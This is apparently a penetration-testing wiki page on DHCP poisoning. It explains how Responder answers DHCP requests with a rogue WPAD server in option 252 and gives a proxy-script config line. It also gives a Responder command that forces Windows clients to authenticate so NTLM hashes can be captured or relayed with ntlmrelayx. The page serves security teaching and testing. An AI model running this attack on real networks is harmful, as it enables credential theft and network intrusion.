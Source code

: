 # DHCP poisoning

## Theory

When a workstation reboots or plugs into a network, a broadcast DHCP request is emitted. It's goal is to ask for network settings like an IPv4 address.

> Windows uses several custom DHCP options such as NetBIOS, WINS, WPAD settings. When a workstation sends a DHCP request to get its networking settings, these additional settings can be included in the DHCP answer to facilitate straightforward connectivity and name resolution. _\(_[_Laurent Gaffié_](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)_\)_

[DHCP's option 252](https://docs.microsoft.com/en-us/previous-versions/tn-archive/bb794881%28v=technet.10%29) provides Windows machines with a WPAD configuration. An attacker able to answer broadcast DHCP queries faster than the legit DHCP server can inject any network setting on the requesting client.

## Practice

[Responder](https://github.com/SpiderLabs/Responder) \(Python\) \(from v3.0.7.0\) can be used to operate DHCP poisoning in the following manner

* race against the legit DHCP server to answer `DHCP REQUEST` messages
* sent a DHCP ACK response with a rogue WPAD server address in `option 252` in the network parameters, with a short lease \(10 seconds\)
* wait the lease to expire so that the poisoned client asks for a new lease
* let the client obtain a legitimate lease from the real DHCP server, allowing the client to obtain the right network settings and have connectivity
* the injected WPAD server address will stay until the client reboots \(that's how Windows works 🤷♂ \)
* with the injected WPAD server address, the Windows client will try to obtain the wpad.dat file on the rogue WPAD. Responder will then require the client to authenticate.

In order to start DHCP poisoning for WPAD spoofing with Responder, the `Responder.conf` file needs to be tweaked.

```yaml
WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY ProxySrv:3128; PROXY ProxySrv:3141; DIRECT';}
```

The `ProxySrv` variable \(in red in the following screenshot\) needs to be replace by the rogue WPAD server \(i.e. Responder IP address\).

![](../../../.gitbook/assets/responder_conf_dhcp_poisoning.png)

The attack can then be started with the `-d/--DHCP` argument.

The `--wredir` and `--ProxyAuth` need to be added to force the Windows client to authenticate once the `wpad.dat` is accessed in order to capture hashes.

```bash
responder --interface "eth0" --wredir --ProxyAuth --NBTNSdomain --verbose
```

The proxy auth NTLM authentication can either be [captured](../ntlm/capture.md) with Responder with the command line above or [relayed](../ntlm/relay.md) with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(by using the `--http-port 3128` argument. The `--wredir` and `--ProxyAuth` arguments need to be removed from Responder's command line.\).

## Resources

{% embed url="https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html" %}



